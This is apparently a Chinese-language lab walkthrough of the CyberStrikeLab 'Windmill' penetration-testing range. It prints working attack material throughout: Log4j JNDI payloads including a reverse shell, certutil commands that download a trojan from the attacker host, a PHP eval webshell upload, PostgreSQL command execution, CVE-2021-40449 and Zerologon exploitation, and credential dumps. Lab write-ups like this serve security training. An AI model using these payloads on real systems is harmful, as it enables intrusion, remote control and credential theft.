# CyberStrikeLab-Windmill（全网首发）-先知社区

> **来源**: https://xz.aliyun.com/news/18390  
> **文章ID**: 18390

---

本机：172.16.233.2

整个靶场拓扑如下



# flag1-log4j

使用的工具是jndimap



发送poc数据包测试java版本

```
POST /cslab HTTP/1.1
Host: www.windmill.cs1ab.com:8080
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 92

payload=${jndi:ldap://172.16.233.2:1389/${sys:java.version}}
```



发现是java高版本，那我们绕过一下，然后反弹shell

```
POST /cslab HTTP/1.1
Host: www.windmill.cs1ab.com:8080
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 92

payload=${jndi:ldap://172.16.233.2:1389/TomcatBypass/ReverseShell/MTcyLjE2LjIzMy4y/NDQ0NA==}
```

监听，等shell传过来



远程下载木马，执行后上线cs，提权开rdp

```
certutil.exe -urlcache -split -f http://172.16.233.2:7070/1.exe 1.exe
```

关闭远程连接验证

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```



抓取一下密码，发现一个远程登录的密码

```
rdp  Log4j@cslab!@#
```

使用gost搭建代理隧道

gost.exe -L socsk://:8001

对内网进行扫描发现一个pg数据库，通过抓取navicate的记录抓到数据库密码，

# flag2-postgress数据库

用mdut连接或者直接用navicate



pg数据库 cslab@2025#qw

使用navicate连接后插入sql语句,执行sql语句执行系统命令，继续上线cs

```
# 删除并创建用于保存系统命令执行结果的表 
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
# 命令执行测试，多试几条
COPY cmd_exec FROM PROGRAM 'id';
COPY cmd_exec FROM PROGRAM 'whoami';
# 查看结果
SELECT * FROM cmd_exec;
```

```
certutil.exe -urlcache -split -f http://172.26.50.22:7070/b.exe 1.exe
```

上线cs后,先进程注入，然后使用CVE-2021-40449提权

```
[*] Task Beacon to run windows/beacon_http/reverse_http (172.26.50.22:8888) via CVE-2021-40449
[+] =========CVE-2021-40449 exploits elevate=============
[+] exploit dll use metasploit CVE-2021-40449 ReflectiveLoader dll
[+] CVE-2021-40449 exploits elevate
[+] test success targer system winserver16 winserver19 win10
[+] good luck!!!!!!!!!
[+] host called home, sent: 363051 bytes
```



抓取到了一个账号

```
UserName   : WIN-CB18UOHKTK8\Administrator
Credential : cyberstrike@2024
```



也顺利拿下第二个flag，但是提交的时候是第三个

# flag3-凡诺cms2.1

继续扫描发现172.26.50.98有cms



网上搜索源码审计后发现在添加频道那里有文件上传漏洞

添加频道，上传木马

poc:

```
POST /cslab/editor/phpecms/upload_json.php?dir=file HTTP/1.1
Host: 172.26.50.98:8980
Content-Length: 248
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://172.26.50.98:8980
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryW71hkgNaO9ENrAhB
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.26.50.98:8980/cslab/admin/cms_channel_add.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=svomfi229e8dreq70uhm7v5r35; upload=allow; _d_id=d104029849a2172b5d093d5c782edf
Connection: keep-alive

------WebKitFormBoundaryW71hkgNaO9ENrAhB
Content-Disposition: form-data; name="imgFile"; filename="2025-06-04_215543_032.zip"
Content-Type: image/jpeg

ÿØÿàJFIFÿØc
<?php @eval($_POST['hack']); ?>
------WebKitFormBoundaryW71hkgNaO9ENrAhB
```



这里要把上传的webshell解析成php需要在后面加`./php`,这是iis的一个路径解析漏洞

```
http://172.26.50.98:8980/cslab/uploadfile/file/20250609/20250609173928_30643.zip/.php
```

蚁剑连接拿到一个flag



转发上线cs呢，然后提权(MS15-077)，开rdp正常套路





抓rdp密码,发现域管理员密码

```
[+] received output:
TargetName : Domain:batch=TaskScheduler:Task:{6CD08085-E813-4C4B-AF72-2D7E2710B67B} / <NULL>
UserName   : WIN-A5V3UTVEJEK\Administrator
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : cslab@2025md
Attributes : 0
```

重置一下密码登录数据库查看一下,没啥用



# flag4-5-zerologin

内网信息收集



发现10.0.0.23(域控)和10.0.0.96两台主机，发现域名cyberweb.cyberstrikelab.com

继续发现96开放了3389



## 域渗透

## 域信息收集

根据前面fscan扫描的结果，可以知道的信息如下

|  |  |  |  |
| --- | --- | --- | --- |
| 主机 IP | 主机名 | 系统版本 | 开放服务 |
| 10.0.0.23 | DC | Windows Server 2016 | 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 9389, 47001, 5985 等 |
| 10.0.0.96 | cyberweb | Windows Server 2016 | 135, 139, 445, 3389, 5985, 47001 等 |

域名：cyberstrikelab.com

尝试用密码爆破过3389无果，发现ldap未授权，登录后没有可以获取的信息。

```
目前获取到的用户名
cslab
administrator
cyberweb
guest
密码
cslab@2025md
Log4j@cslab!@#
cslab@2025#qw
cyberstrike@2024

发现ldap未授权
[*] Ladon 10.0.0.23 LdapScan
[+] host called home, sent: 963895 bytes
[+] received output:
Ladon For Cobalt Strike
Start: 2025-06-10 06:56:13
PC Name: WIN-A5V3UTVEJEK Lang: zh-CN
Runtime: .net 4.0  ME: x64 OS: x64
OS Name: Microsoft Windows Server 2012 Standard
Machine Make: Red Hat
RunUser: Administrator PR: *IsAdmin
Priv: SeImpersonatePrivilege 已启用
PID: 6624  CurrentProcess: rundll32

[+] received output:
CPU: Physical: 1 Cores: 1 Logical: 1
FreeSpace: Disk C:\ 9945 MB

```

经过千辛万苦的信息收集，发现域控存在zerologin

下面是使用msf利用过程

```
[*] Running module against 10.0.0.23
[*] 10.0.0.23: - Connecting to the endpoint mapper service...
[proxychains] Strict chain  ...  127.0.0.1:8001  ...  10.0.0.23:135  ...  OK

[*] 10.0.0.23: - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:10.0.0.23[49668] ...
[proxychains] Strict chain  ...  127.0.0.1:8001  ...  10.0.0.23:49668  ...  OK
[*] 10.0.0.23: - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:10.0.0.23[49668] ...
[+] 10.0.0.23: - Successfully authenticated
[+] 10.0.0.23: - Successfully set the machine account (DC$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) >
[proxychains] DLL init: proxychains-ng 4.17
```

导出hash

```
[proxychains] Strict chain  ...  127.0.0.1:8001  ...  10.0.0.23:445  ...  OK
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
